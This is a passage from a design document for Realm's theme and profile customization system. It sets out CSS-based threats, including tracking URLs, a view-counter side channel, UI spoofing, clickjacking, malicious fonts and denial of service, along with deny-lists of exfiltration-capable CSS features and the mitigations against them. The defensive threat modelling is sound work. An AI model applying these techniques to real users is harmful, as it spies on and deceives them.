**Tracking.** Any URL in a theme (a background, a font, an `@import`) is a tracking pixel: it logs the viewer's IP, user agent, timing and, with distinct URLs per view, who looked when. On Realm, a Space theme or profile background pointing at an outside host would tell the author exactly which members are online. Hosted themes that `@import` remote CSS can also change after review (the BD/ClearVision model).

A subtle Realm-specific one: even with only *Realm-hosted* URLs allowed, if the owner of a media file can see how often it is fetched (e.g. view counts on clips), a theme could use one Realm media ID per guessed character and read the counter. **Theme assets must be served from a path whose fetches produce no owner-visible signal.**

**UI redress and spoofing.** CSS can hide, move, cover or fake anything:

- Hide the "Not end-to-end encrypted yet" label, or add a fake "End-to-end encrypted" label with `::before { content: "…" }`.
- Restyle a stranger's message to look like a system message or a staff notice.
- Overlay a fake login, payment or "verify your account" panel (MySpace 2006, Misskey 2025, PortSwigger 2026).
- Hide the report button, the block button, a link-warning interstitial or the NSFW gate.
- Clickjacking within the page: make "Leave Space" look like "Join", or put a transparent target over "Approve".
- Spoof identity: name styles or nameplates mimicking a staff badge; avatar frames that extend over neighbouring messages.

**Fonts as an attack.** Beyond exfiltration, a custom font controls what glyph appears for each character. A malicious font can draw "0" as "8", swap letters in a URL, or render a different safety number than the one computed. Font files are also a classic parser attack surface (browsers sanitize web fonts with OTS; native font stacks are less forgiving). **No user-supplied font may ever render security-relevant text.**

**Denial of service.** `filter: blur(200px)` or `backdrop-filter` on a full-screen fixed layer, infinite animations on large layers, huge `box-shadow` spreads, pathological `:has()` selectors, a 50 MB image, an 8K video, and `var()` chains that expand exponentially (the CSS Variables spec has a section, *Safely Handling Overly-Long Variables*, for this "billion laughs" case: [css-variables-1 §3.3](https://www.w3.org/TR/css-variables-1/)). On the user's reference machine (AMD Radeon 610M) we've already seen a single full-screen effect take 22 of 38 ms per frame.

**Accessibility harm.** Low-contrast text, flashing animated backgrounds (photosensitive seizures; WCAG 2.3.1), motion that can't be paused (WCAG 2.2.2 requires a way to pause anything moving that starts automatically, lasts over five seconds and runs alongside other content: [Understanding 2.2.2](https://www.w3.org/WAI/WCAG22/Understanding/pause-stop-hide.html)), decorative fonts for body text, and transparency that ignores the OS "reduce transparency" setting.

**Content abuse.** Hateful or sexual background images in a Space theme; copyrighted art sold in a marketplace; impersonating another Space's look to phish its members.

### 3.3 Three ways to let people restyle the app

| | **A. Token-only** | **B. Constrained subset** | **C. Full CSS** |
|---|---|---|---|
| What the user writes | Typed values: colours, numbers, enums, media IDs | Styles on documented hooks with allowlisted properties and value ranges (as JSON, or a strictly parsed CSS subset) | Any CSS |
| Exfiltration | Impossible: no selectors, no URLs | Prevented if no attribute/content selectors, no `:has()`, no `url()` except compiler-resolved media | Possible; CSP mitigates network leaks, not the oracles |
| UI spoofing | Impossible: no `content`, no positioning | Prevented if position/visibility/`content`/transform/clip are excluded and trust UI has no hooks | Easy |
| DoS | Bounded by schema ranges | Bounded by ranges plus a complexity budget | Unbounded |
| Native apps | Fully portable | Partly portable (properties with native equivalents) | Web/desktop only |
| Survives redesigns | Yes, if token names are stable | Yes, if hook names are versioned | No |
| Expressiveness | Colours, images, blur, fonts, radius, density | Plus per-component shape, spacing, borders, emphasis | Anything, including layout |
| Moderation | Images and names only | Plus a linter | A sanitizer arms race and code review |

**Decision:** A is the product. B is a later power-user layer, expressed as typed JSON so it stays portable and lintable. C is not offered in v1; §4.4 sets the conditions under which it might be.

### 3.4 Controls

1. **Themes are data; the compiler is the only author of CSS.** A theme never contains a CSS string. Colours are `{ l, c, h, a }` numbers; images are media IDs; fonts are catalogue IDs; everything else is an enum or a bounded number. One deterministic compiler (shared by web, server and native builds) produces CSS custom properties or a native style object. There's nothing to inject into.
2. **Server-side validation is authoritative.** The API validates every theme document with the shared Zod schema, re-runs the contrast and budget checks, and checks that every media ID is one the author may use. Client checks are for the editor's UX only.
3. **Media only through Realm's pipeline.** Backgrounds, videos and (catalogue) fonts are uploaded through `/media/uploads` with a `purpose`, processed (EXIF strip, hash matching, NSFW classification, flash analysis for animated media, resizing, pre-blurred variants) and served from Realm's media origin by signed or immutable URLs. No third-party URLs anywhere in themes or profiles. Theme asset fetches are not counted or shown to the uploader.
4. **CSP stays strict.** The current policy (`img-src 'self' data: blob:`, `font-src 'self'`, `style-src 'self' 'unsafe-inline'`, `connect-src 'self'`, in `frontend/web/next.config.ts`) already blocks every outside request a theme could cause; when media moves to a CDN origin, that one origin is added to `img-src` and `media-src`, nothing else. `@import` is governed by `style-src` too ([MDN: style-src](https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/Content-Security-Policy/style-src)). CSP is defence in depth here, not the main control.
5. **A stable public styling API.** Public token names (§4.2) and `data-part` hook names (§4.4) are versioned and documented. Hashed class names (CSS Modules, Tailwind output) are explicitly not API.
6. **Trust UI is outside the themeable surface** (§3.5).
7. **Accessibility guardrails** (§4.2.4): contrast enforcement, minimum text sizes, reading-font allowlist, reduced motion/transparency honoured, flash analysis, viewer opt-outs for other people's cosmetics.
8. **Performance budgets** (§4.11), enforced by schema ranges and by the media pipeline, not by hoping.
9. **Versioned, immutable theme versions.** Installers follow a theme's updates by default, but each new version passes the same checks (and review, for gallery themes) before anyone receives it. Users can pin a version. No live remote code.
10. **Preview before apply; always a way back.** Links and embeds open a preview, never apply silently. Settings → Appearance always renders in the default theme, and `/settings/appearance?safe=1` (plus a keyboard shortcut) resets the theme on this device even if the theme has made everything unreadable.
11. **Honest privacy labelling.** Theme preferences and background images are stored by Realm and are not end-to-end encrypted; the editor says so. Optionally, a background can be kept on this device only (stored locally, never uploaded, not synced).

### 3.5 What stays un-themeable

These render with system tokens (`--r-sys-*`) that the theme compiler never writes, inside containers marked `data-trust` that reset every themeable custom property to its system value and carry no `data-part` hooks:

- **Encryption labels and keys:** "End-to-end encrypted", "Not end-to-end encrypted yet", "Encrypted in transit and at rest" ([E2EE.md §1](E2EE.md)), safety numbers and verification codes, new-device and key-change warnings, the device list.
- **Safety interstitials and warnings:** link warnings ("You're leaving Realm"), suspicious-link and file-download warnings, age gates and sensitive-content covers, account-compromise prompts.
- **Report, block and mute** controls and the whole report flow; moderation notices (removed, timed out, banned) and appeals.
- **Account security and money:** sign-in, 2FA, passkeys, password change, session revocation, checkout and purchase confirmations, subscription cancellation. Themes must not be able to restyle a "Buy" or "Cancel" button into a dark pattern.
- **System and official identity:** system messages, staff and "Official" marks, verified marks. User cosmetics (name styles, nameplates, badges, frames) may not use the reserved shapes or the system colour.
- **Capture indicators:** microphone live, camera on, screen sharing, recording.
- **Focus visibility:** the focus ring's colour is themeable but its thickness isn't, and it must keep ≥3:1 against adjacent surfaces.
- **The theme controls themselves:** reset, safe mode, the editor's accessibility report.
- **Legal and consent text.**

Space themes are further limited to the Space's own region (header, room tabs, chat, board): the dock, global header, Travel (⌘K), notifications and menus keep the user's own theme, so a Space can't dress itself up as another Space or as Realm.

### 3.6 Native apps

Per the roadmap, desktop ships as Electron running the web app, and mobile as Expo (React Native). Consequences:

| Theme feature | Web | Desktop (Electron) | Mobile (Expo) |
|---|---|---|---|
| Colours | CSS custom properties, `oklch()` | Same as web | Compiled to sRGB hex (or P3) in a theme object; React Native doesn't parse `oklch()` |
| Background image | Fixed layer, server variant chosen by `srcset` | Same | `expo-image` with the matching server variant |
| Background video | `<video muted loop playsinline>` | Same | `expo-video` |
| Translucency, blur | Pre-blurred image + translucent surfaces; small live blurs only | Same | `expo-blur` on iOS; opacity fallback on Android where blur is costly |
| Fonts | Self-hosted WOFF2 from the catalogue | Same | Catalogue fonts bundled or loaded with `expo-font` |
| Reduced motion / transparency | Media queries plus Realm's Pause motion setting | Same | `AccessibilityInfo` (reduce motion; reduce transparency on iOS) |
| Layer 3a typed overrides | `data-part` styles | Same | The subset with native equivalents; the rest ignored |
| Raw CSS (if ever) | Yes | Yes | **Never** |

Tokens translate; raw CSS does not. That's the strongest argument for keeping the core in tokens.

---

## 4. Recommended architecture

### 4.1 Layers and precedence



- The **built-in editions are themes too**: night and day are expressed in the same `ThemeDocument` format and pass the same checks. That keeps the format honest.
- **Accessibility overrides always win**, including over Space themes and profiles (Mastodon's lesson).
- **Viewer controls** for other people's styling: "Show Space themes" (default on), "Profile effects: play / play once / static", "Animated backgrounds on others' profiles: on / off".

### 4.2 Layer 1: token themes (free)

#### 4.2.1 Public token vocabulary

The current tokens (`frontend/design-tokens/src/tokens.ts`) use metaphor names from earlier directions ("ground", "land", "overprint", "ink"). A public theme API should use plain role names, fixed now, before the redesign settles. Proposed mapping:

| Public theme key | Current internal token | CSS custom property |
|---|---|---|
| `bg`, `bgMid`, `bgEnd` | `ground`, `groundMid`, `groundEnd` | `--r-bg`, `--r-bg-mid`, `--r-bg-end` |
| `surface`, `surfaceRaised`, `surfaceSunken` | `panel`, `panelRaised`, `land` | `--r-surface`, … |
| `border`, `borderStrong` | `rule`, `ruleStrong` | `--r-border`, `--r-border-strong` |
| `text`, `textSoft`, `textMuted` | `ink`, `inkSoft`, `inkMuted` | `--r-text`, … |
| `accent`, `accentFill`, `accentFillHover`, `onAccent` | `overprint`, `overprintFill`, `overprintFillHover`, `onOverprint` | `--r-accent`, … |
| `focus` | `focus` | `--r-focus` |
| `danger`, `success`, `warning` | `danger`, `success`, (new) | `--r-danger`, … |
| `shadow` | `shadow` | `--r-shadow` |
| `bubbleMine`, `onBubbleMine`, `bubbleTheirs` | (Spaces ink, `panelRaised`) | new |
| `mention`, `link`, `selection` | (new) | new |
| `surfaceOpacity`, `surfaceEdge`, `surfaceBlur` | hard-coded 94%, `--surface-edge` in `globals.css` | new, numeric |
| `regions.{spaces,feed,profiles,boards}.hue` | `REGION_HUES` | inks derived per role |
| `fontBody`, `fontDisplay`, `textScale` | `--font-atkinson`, `--font-bricolage` | `--r-font-body`, … |
| `radius` scale, `density` | `radius`, `space` | `--r-radius-*`, `--r-density` |

Rules: public names never change within a schema version; renames go through a deprecation (the old key is still read for one major version); component tokens (e.g. a specific button's hover) are internal and derived from these.

#### 4.2.2 The theme document

Lives in `shared/contracts/src/schemas/themes.ts` (validated by the API, typed for every client). Sketch:

```ts
import { z } from "zod";
import { Snowflake } from "../ids";

/** A colour as OKLCH numbers. Never a CSS string: the compiler writes CSS. */
export const ThemeColor = z.strictObject({
  l: z.number().min(0).max(1),
  c: z.number().min(0).max(0.37),
  h: z.number().min(0).max(360),
  a: z.number().min(0).max(1).optional(),
});

/** Catalogue font ID (GET /v1/fonts). The catalogue says which fonts may set body text. */
export const FontId = z.string().regex(/^[a-z0-9-]{2,48}$/);

/** A media ID the author may use: their own upload with purpose 'theme', a public theme asset, or a Shop item. Checked server-side. */
export const ThemeMediaId = Snowflake;

const Background = z.discriminatedUnion("kind", [
  z.strictObject({ kind: z.literal("sky") }), // the edition's own sky
  z.strictObject({ kind: z.literal("solid"), color: ThemeColor }),
  z.strictObject({
    kind: z.literal("gradient"),
    angle: z.number().int().min(0).max(359),
    stops: z.array(z.strictObject({ color: ThemeColor, at: z.number().min(0).max(1) })).min(2).max(5),
  }),
  z.strictObject({
    kind: z.literal("image"),
    mediaId: ThemeMediaId,
    fit: z.enum(["cover", "contain", "tile"]).default("cover"),
    focus: z.strictObject({ x: z.number().min(0).max(1), y: z.number().min(0).max(1) }).default({ x: 0.5, y: 0.5 }),
    dim: z.number().min(0).max(0.9).default(0.35), // scrim over the image
    blur: z.enum(["none", "soft", "medium", "strong"]).default("none"), // pre-rendered variants, not live blur
    saturation: z.number().min(0).max(1.5).default(1),
  }),
  z.strictObject({
    kind: z.literal("video"), // Realm+
    mediaId: ThemeMediaId,
    posterMediaId: ThemeMediaId,
    dim: z.number().min(0).max(0.9).default(0.45),
    blur: z.enum(["none", "soft", "medium", "strong"]).default("none"),
  }),
]);

const Colors = z
  .strictObject({
    bg: ThemeColor, bgMid: ThemeColor, bgEnd: ThemeColor,
    surface: ThemeColor, surfaceRaised: ThemeColor, surfaceSunken: ThemeColor,
    border: ThemeColor, borderStrong: ThemeColor,
    text: ThemeColor, textSoft: ThemeColor, textMuted: ThemeColor,
    accent: ThemeColor, accentFill: ThemeColor, accentFillHover: ThemeColor, onAccent: ThemeColor,
    focus: ThemeColor,
    bubbleMine: ThemeColor, onBubbleMine: ThemeColor, bubbleTheirs: ThemeColor,
    mention: ThemeColor, link: ThemeColor, selection: ThemeColor,
    danger: ThemeColor, success: ThemeColor, warning: ThemeColor,
    shadow: ThemeColor,
  })
  .partial(); // anything missing is derived from seeds, then from the base edition

const Variant = z.strictObject({
  /** 1–5 seed colours, like Discord's custom themes; the generator derives every role from them. */
  seeds: z.array(ThemeColor).min(1).max(5).optional(),
  colors: Colors.optional(),
  regions: z
    .strictObject({ spaces: z.number(), feed: z.number(), profiles: z.number(), boards: z.number() })
    .partial()
    .optional(), // hues; the four must stay ≥ 30° apart (they're identities)
  background: Background.default({ kind: "sky" }),
  surfaces: z
    .strictObject({
      opacity: z.number().min(0.55).max(1).default(0.94), // floor keeps text legible over any picture
      edgeLight: z.number().min(0).max(0.3).default(0.07),
      liveBlur: z.enum(["off", "overlays"]).default("off"), // small menus/popovers only (§4.11)
    })
    .default({}),
});

export const ThemeDocument = z
  .strictObject({
    schema: z.literal(1),
    name: z.string().trim().min(1).max(48),
    description: z.string().trim().max(280).optional(),
    tags: z.array(z.string().regex(/^[a-z0-9-]{2,24}$/)).max(8).default([]),
    /** At least one. A theme with one variant uses it in both editions. */
    variants: z
      .strictObject({ night: Variant.optional(), day: Variant.optional() })
      .refine((v) => v.night || v.day, "A theme needs a night or a day variant"),
    type: z
      .strictObject({
        body: FontId.default("atkinson-hyperlegible-next"), // must be a 'reading' font
        display: FontId.default("bricolage-grotesque"),
        scale: z.number().min(1).max(1.25).default(1), // themes may enlarge text, never shrink it
      })
      .default({}),
    shape: z.strictObject({ radius: z.enum(["square", "default", "round"]).default("default") }).default({}),
    density: z.enum(["compact", "default", "spacious"]).default("default"),
    motion: z.strictObject({ ambient: z.enum(["off", "subtle", "full"]).default("subtle") }).default({}),
    /** Layer 3a (§4.4). Absent in schema 1's first release. */
    parts: z.record(z.string(), z.unknown()).optional(),
  })
  .meta({ id: "ThemeDocument" });
export type ThemeDocument = z.infer<typeof ThemeDocument>;
```

Notes:

- `strictObject` everywhere: unknown keys are rejected, not ignored, so nothing smuggles through a future client.
- No field accepts a URL, a selector or a CSS value. The worst a malicious document can do is look bad, and §4.2.4 limits that.
- Size limit: 16 KB of JSON. Compiled web output must stay under 8 KB.
- `schema` bumps only for breaking changes; the API stores the version and migrates old documents on read.
- The **seed generator** (pick one to five colours, as Discord does) derives every role by stepping OKLCH lightness with fixed gaps that guarantee the contrast targets, the way Material's tone steps do. Advanced mode exposes each role.

#### 4.2.3 Compiling

`compileTheme(doc, { edition, platform }) → CompiledTheme`, in a shared package (see §4.13):

```ts
interface CompiledWebTheme {
  hash: string;                        // sha256(compilerVersion + canonical JSON + edition)
  colorScheme: "dark" | "light";
  vars: Record<`--r-${string}`, string>; // applied with style.setProperty on <html> or a Space root
  background: {
    placeholder: string;               // average colour or gradient, painted immediately
    image?: { src: string; srcset: string; sizes: string };
    video?: { src: string; poster: string };
  };
  features: Array<"image-bg" | "video-bg" | "translucent" | "live-blur" | "extended-font">;
  metaThemeColor: string;              // <meta name="theme-color"> for mobile browser chrome
}
```

The native target returns the same structure with hex colours, numbers in points and resolved asset URLs. `features` drives entitlement checks (§4.3) and the performance governor.

#### 4.2.4 Contrast and accessibility enforcement

Run by the shared checker on the client (editor feedback) and the server (authoritative), for every variant:

| Pair | Minimum |
|---|---|
| `text`, `textSoft`, `textMuted` on `bg*`, `surface*` | 4.5:1 (WCAG 1.4.3) |
| `link`, `mention` text on surfaces | 4.5:1 |
| `onAccent` on `accentFill` and `accentFillHover` | 4.5:1 |
| `onBubbleMine` on `bubbleMine`; `text` on `bubbleTheirs` | 4.5:1 |
| `accentFill`, `borderStrong`, `focus` against `bg` and `surface` | 3:1 (WCAG 1.4.11) |
| `danger` text on surfaces | 4.5:1, and hue within the red band |
| Region inks: `text` on its `fill` and on `bg` | 4.5:1 |

The built-in editions keep their stricter bars (body text ≥7:1, tested today in `tokens.test.ts`).

**Pictures and video.** Contrast can't be computed against a photo directly. The media pipeline records luminance percentiles (p2, p50, p98) of each processed variant, after dim, blur and saturation. The checker composites each translucent surface over both the darkest and the lightest plausible background colour and requires the pairs above to pass on both. Text drawn directly on the background (rare: e.g. an empty-state heading) always gets a scrim. If a picture is too busy for the chosen opacity, the editor raises the surface opacity or the dim until it passes.

**Policy.**

- Anything other people see or install (gallery themes, unlisted share links, Space themes, profile colours) must pass. The server rejects failing documents with a per-pair report.
- A personal theme may be saved below AA for yourself, with a persistent warning and a one-click "Fix contrast" (which nudges OKLCH lightness, keeping hue and chroma, like the existing `fitToGamut`). It can't go below 3:1 for body text, and it can't be shared until fixed. (Open question in §8.)
- WCAG 2.x contrast is the compliance bar. APCA can be shown as advisory in the editor; WCAG 2's formula is known to be generous with some dark pairs, which matters for a dark-first app.
- **Fonts:** body text only from fonts flagged `reading` in the catalogue (Atkinson Hyperlegible Next, plus a short list such as Inter, Lexend, OpenDyslexic, system UI); decorative fonts only in display slots (titles, Space names, profile names). Minimum body size stays 17px; `type.scale` can only enlarge.
- **Motion:** animated backgrounds and effects stop under `prefers-reduced-motion`, Realm's Pause motion, and when the tab is hidden. Pause motion already exists in Appearance; it becomes the WCAG 2.2.2 control for themes too.
- **Transparency:** `prefers-reduced-transparency` (Chrome/Edge 118+; [Chrome blog](https://developer.chrome.com/blog/css-prefers-reduced-transparency)) and the iOS setting force `surfaces.opacity` to 1 and drop live blur. Also a Realm setting, since Safari and Firefox don't expose the query.
- **Flashing:** animated media fails upload if it exceeds the general or red flash thresholds (WCAG 2.3.1), checked in the media pipeline.
- **High contrast mode** (a free Realm setting) replaces the user's theme colours with a high-contrast set while keeping their background disabled, and honours `forced-colors`.

#### 4.2.5 Editor

Settings → Appearance → Themes:

- **Start from:** the built-in editions, accessibility presets, your saved themes, or a gallery theme (fork).
- **Seeds mode:** one to five colours, a dark/light base, a background. **Advanced mode:** every role, per variant.
- **Background:** upload, set focal point, fit, dim, blur bucket, saturation; preview with the real panels over it.
- **Live preview** on sample screens (a Space room, the feed, a profile, Settings) in a scoped container (`[data-theme-preview]`), plus "Try on the whole app" for the session without saving.
- **Accessibility panel:** every checked pair with pass/fail and a "Fix" button; a simulated view for common colour-vision deficiencies.
- **Save** (account-synced) with a per-device override toggle (Discord added "Sync Across Clients" for the same reason). **Share:** visibility private / unlisted link / gallery.
- **Export/import** as `.realmtheme.json` (the ThemeDocument). Importing runs the same validation; media IDs the importer may not use are dropped with a notice. A theme can never be used to reach someone else's private media.

#### 4.2.6 Share links and embeds

- `https://realm.app/t/<code>` opens a preview page (a Telegram `addtheme` link, with a preview step). The code is a short ID, not a vanity slug (no squatting; vanity names maybe later for creators).
- Posting a theme link in chat or a post renders a card: name, author, swatches, a thumbnail, **Preview**. Nothing applies without a click on **Apply** in the preview (Slack's pattern, minus auto-switch).
- By default you follow updates; the preview page shows the version and whether updates are on.

### 4.3 Layer 2: Realm+ and richer media

What's paid is richer *media and cosmetics*, never legibility and never the core of theming (§5.3 has the full split):

- **Animated and video backgrounds** for the app and the profile (server-transcoded to the budget in §4.11).
- **Extended font catalogue** for display slots and name styles.
- **Name styles, nameplates, profile effects, avatar frames** (some included, most in the Shop).
- **More saved themes and gallery publishing extras** (e.g. version history, analytics on installs).
- **Per-Space themes.** A Space owner (permission `MANAGE_COMMUNITY`) sets a Space theme: Layer 1 tokens plus a static background for every Space; video backgrounds as a paid Space perk. Whether that perk is paid by the owner's Realm+ or by members chipping in (Discord's boost model) is open (§8).
- **Gallery and marketplace.** Public themes with creator attribution, likes, installs, forks ("Based on X by @y") and a license choice (all rights reserved / remix allowed). Paid themes and items from creators come later (§5.4).

Entitlements are checked from `CompiledTheme.features`: a free account can preview a Realm+ theme but applies it with Realm+ features downgraded (video → poster image; extended font → nearest catalogue font), never a broken theme.

### 4.4 Layer 3: power users

**3a. Typed part overrides (recommended, after Layer 2).** A documented registry of hooks, each a `data-part` attribute on a stable element, with states as data attributes:

```html
<div data-part="chat.bubble" data-state="mine">…</div>
```

The registry lives in the design-tokens package (`parts.ts`): name, description, which properties may be overridden, since-version, deprecation. A test renders the app and fails if a registered part is missing or an unregistered `data-part` appears. Overrides are JSON in `ThemeDocument.parts`:

```ts
const PartStyle = z.strictObject({
  radius: z.number().int().min(0).max(32).optional(),
  background: z.union([TokenRef, ThemeColor]).optional(),
  text: z.union([TokenRef, ThemeColor]).optional(),
  border: z.strictObject({ width: z.number().int().min(0).max(3), color: z.union([TokenRef, ThemeColor]) }).optional(),
  font: z.enum(["body", "display"]).optional(),
  weight: z.number().int().min(400).max(800).optional(),
  padding: z.enum(["tight", "default", "roomy"]).optional(),
  shadow: z.enum(["none", "soft", "lifted"]).optional(),
});
// parts: z.record(PartName /* enum from the registry */, PartStyle)
```

Each part declares which of these it accepts. Excluded everywhere: positioning, `z-index`, `display`, `visibility`, `opacity` (except via theme surfaces), transforms, clipping and masks, `content`, `pointer-events`, `url()`. Trust UI has no parts. The compiler emits these as rules scoped to `[data-part="…"]` inside a cascade layer below Realm's own trust rules. Contrast checks extend to overridden pairs. On native, parts map to component props where an equivalent exists.

This covers most of the snippet culture (rounder bubbles, compact rows, flat cards, bolder names) without selectors.

**3b. Raw CSS ("QuickCSS"). Not in v1.** If demand later justifies it, the only acceptable shape is:

- **Local only.** Stored on the device (or synced to the same account), never shareable through links or the gallery, never applied to anyone else, never part of Space themes or profiles. Desktop and web only.
- **Behind a developer toggle** with a plain warning, and a persistent "Custom CSS is on" indicator with one-click disable. Safe mode ignores it.
- **Parsed and re-serialized** by a real CSS parser, never inserted as text: rules must target `[data-part]` selectors; no `@import`, `@font-face`, `@namespace`, `@keyframes` (choose from Realm's named animations), attribute-value selectors, `:has()`, `content`, `url()` (except Realm media IDs resolved by the compiler), `if()`, `attr()`; property allowlist as in 3a but wider; size cap; complexity cap.
- **Wrapped in a cascade layer that loses to trust rules.** Trust declarations are `!important` in the *first* layer; with `!important`, earlier layers win, so no later layer can override them ([MDN: @layer](https://developer.mozilla.org/en-US/docs/Web/CSS/@layer)). Trust surfaces render in the browser's top layer (`<dialog>`, popover) where possible, above anything page CSS can stack.
- **Unsupported.** Like Firefox's `userChrome.css`, it may break between releases; only `data-part` and public tokens are promised.

Even then it buys little over 3a, can't reach mobile, and costs support time. The default answer is "build 3a well".

### 4.5 Profiles: Steam-style customization

**Components** (each a reference to an item or a media ID, rendered by the client in a fixed way):

| Component | Free | Paid / earned | Rendering rule |
|---|---|---|---|
| Avatar | static image | animated avatar (Realm+) | animated only on hover in lists; static first frame elsewhere |
| Banner | static image | animated (Realm+) | same |
| Profile colours | 2 colours (primary, accent) + base | — | contrast-checked against the profile card's text |
| Profile background | none / solid / gradient | Shop items; uploaded image or video (Realm+, moderated) | behind the profile page only, with the theme's scrim rules |
| Mini-profile background | none | Shop items | inside the hover card's box |
| Avatar frame | none | Shop items, event items | fixed box ≤ 1.25× avatar size; can't cover neighbouring content |
| Name style | default | font + colour/gradient + effect (Realm+ / Shop) | display fonts only; viewers' readable-colour clamp applies |
| Nameplate | none | Shop items | behind the name in member lists, from a fixed palette |
| Profile effect | none | Shop items | plays once when the card opens; static under reduced motion |
| Badges | earned badges | event, achievement, Realm+ | a showcase of up to N chosen badges; reserved shapes for staff |
| Showcases | 3 slots | 6 slots (Realm+) | ordered modules, see below |

**Showcase kinds:** featured clips, pinned posts, favourite Spaces (public ones only), badge collection, games (from account links later, e.g. Steam), screenshot/artwork gallery (media pipeline), custom text (limited Markdown, no HTML), "now playing". Each has a typed `config` and a visibility (public / friends).

**Rules:**

- No HTML or CSS on profiles, ever. Everything is a known component with known bounds.
- Uploaded profile backgrounds and gallery images go through the same moderation as posts, and are reportable from the profile.
- Viewers can turn off profile effects and animated backgrounds, and high contrast mode ignores profile colours.
- Name colours shown to other people pass through the viewer's readable-colour clamp (Twitch's Readable Colors) and, for colour-blind or low-saturation users, can show as a dot instead (Discord's 2022 role-colour fix).
- **Levels: not at launch.** Steam ties showcase slots to a spending-driven level. Realm shouldn't make basic expression depend on spending or grinding (§8).

### 4.6 Data model

Conventions as in [DATA-MODEL.md](DATA-MODEL.md) (snowflake IDs, `snake_case`, soft delete where users expect undo).

#### `themes`
| column | type | notes |
|---|---|---|
| id | bigint PK | snowflake |
| owner_id | bigint → users | author |
| kind | enum `app` \| `space` | `space` themes may only use Layer 1 + Space perks |
| name | text | ≤ 48 |
| description | text null | ≤ 280 |
| visibility | enum `private` \| `unlisted` \| `public` | `public` = listed in the gallery after review |
| status | enum `active` \| `under_review` \| `removed` | `removed` = taken down; installers revert with a notice |
| current_version_id | bigint null → theme_versions | |
| forked_from_version_id | bigint null → theme_versions | attribution chain |
| license | enum `all_rights_reserved` \| `remix_allowed` | controls forking |
| share_code | text unique | short code for `/t/<code>` |
| price_cents | int null | marketplace, later |
| tags | text[] | ≤ 8 |
| install_count, like_count | int | counters, updated by workers |
| created_at, updated_at, deleted_at | timestamptz | |

#### `theme_versions` (immutable once published)
| column | type | notes |
|---|---|---|
| id | bigint PK | |
| theme_id | bigint → themes | |
| number | int | 1, 2, 3… unique per theme |
| schema_version | smallint | the document's `schema` |
| document | jsonb | the validated, canonicalized ThemeDocument |
| compiled_hash | text | hash of the web compile for the night/day variants |
| features | text[] | e.g. `video-bg`, `extended-font`; drives entitlements |
| contrast_report | jsonb | per-pair results at publish time |
| review_status | enum `auto_passed` \| `pending` \| `approved` \| `rejected` | gallery versions need `approved` |
| created_at | timestamptz | |

#### `theme_assets`
`theme_version_id` · `media_id` · `role` (`background`, `background_video`, `poster`) · PK(`theme_version_id`, `media_id`). Media referenced by a public version isn't deleted while referenced (refcount), except by takedown.

#### `theme_installs`
`user_id` · `theme_id` · `pinned_version_id` null (null = follow updates) · `installed_at` · PK(`user_id`, `theme_id`). `theme_likes`: `user_id` · `theme_id` · `created_at`.

#### `user_settings` (extend the existing P1 table)
Add: `edition` (`system`|`night`|`day`; replaces the current `theme` `system|dark|light`, which doesn't match the web's night/day), `active_theme_id` null, `active_theme_version_id` null, `theme_sync` (bool: account-wide vs. per-device), `space_themes` (`show`|`hide`), `profile_effects` (`play`|`once`|`static`), `others_animated_backgrounds` (bool), `high_contrast` (bool), `reduced_transparency` (`system`|`on`|`off`), `text_scale` (1.0–1.5), `density`.

#### `community_appearance`
`community_id` PK · `theme_version_id` → theme_versions · `set_by` · `set_at`. Changes go to the community `audit_log` (`appearance.update`).

#### `fonts` (catalogue)
`id` (text, e.g. `atkinson-hyperlegible-next`) · `family` · `roles` (`reading`, `display`, `name`) · `tier` (`free`|`plus`) · `license` · `media_ids` (WOFF2 subsets) · `metrics` jsonb · `status`.

#### Cosmetics and profiles
- **`cosmetic_items`**: `id` · `sku` (unique text) · `kind` (`avatar_frame`, `profile_background`, `mini_background`, `nameplate`, `profile_effect`, `name_style`, `badge`, `theme`) · `name` · `description` · `collection_id` null · `assets` jsonb (`{ static, animated, preview }` media IDs) · `render` jsonb (kind-specific, e.g. frame insets, effect duration, nameplate palette) · `price_cents` null · `plus_included` bool · `available_from`/`available_until` null · `creator_id` null · `revenue_share_bps` null · `status` (`draft`|`review`|`live`|`retired`) · timestamps.
- **`cosmetic_collections`**: `id` · `name` · `starts_at` · `ends_at`.
- **`user_items`** (inventory): `id` · `user_id` · `item_id` · `source` (`purchase`|`plus`|`grant`|`event`|`achievement`|`gift`) · `order_id` null · `acquired_at` · `expires_at` null (only for Plus-included items, labelled as such) · `revoked_at` null · unique (`user_id`, `item_id`) where not revoked.
- **`profile_customization`** (1:1 users): `user_id` PK · `colors` jsonb (ProfileColors) · `background` jsonb (`{ kind: none|solid|gradient|item|media, … }`) · `mini_background_item_id` · `avatar_frame_item_id` · `nameplate_item_id` · `name_style` jsonb · `profile_effect_item_id` · `featured_badge_ids` bigint[] · `updated_at`. Extends today's `users.accent_color` and `banner_media_id`.
- **`profile_showcases`**: `id` · `user_id` · `kind` · `position` smallint · `config` jsonb (validated per kind) · `visibility` (`public`|`friends`) · timestamps · unique (`user_id`, `position`).
- **`badges`**: `id` · `slug` · `name` · `description` · `kind` (`platform`|`event`|`achievement`|`staff`) · `icon_media_id` · `tiers` jsonb. **`user_badges`**: `user_id` · `badge_id` · `tier` · `earned_at` · `source_ref` · PK(`user_id`, `badge_id`).
- **`subscriptions`**: `id` · `user_id` · `plan` · `provider` (`stripe`|`apple`|`google`) · `provider_ref` · `status` · `current_period_end` · `cancel_at` null. **`orders`** / **`order_lines`** for one-off purchases.
- Reports: add `theme` and `profile` to `reports.target_type`.

### 4.7 API and gateway

Base `/v1`, conventions as in [API.md](API.md).

| Method | Path | Notes |
|---|---|---|
| POST | `/themes/validate` | `{ document }` → `{ ok, errors[], contrast, features, compiledHash }`; no write. Powers the editor's server check. |
| POST | `/themes` | `{ document, visibility, license }` → theme + version 1 |
| GET | `/themes/:id` | theme, current version, author (respects visibility) |
| PATCH / DELETE | `/themes/:id` | metadata, visibility / delete (installers revert) |
| POST | `/themes/:id/versions` | `{ document }` → new immutable version (review if public) |
| GET | `/themes/:id/versions/:n` | a specific version |
| POST | `/themes/:id/fork` | if `license = remix_allowed` |
| GET | `/themes?sort=popular\|new&tag=&q=&before=` | gallery (public, approved) |
| GET | `/t/:code` | resolve a share code → theme (used by the preview page) |
| PUT / DELETE | `/themes/:id/install` · `/themes/:id/like` | `{ pinnedVersion? }` |
| GET / PATCH | `/users/@me/settings` | existing; gains the appearance fields above and the resolved active theme |
| GET | `/fonts` | catalogue |
| PUT / DELETE | `/communities/:id/appearance` | `{ themeVersionId }` or `{ document }`; `MANAGE_COMMUNITY` |
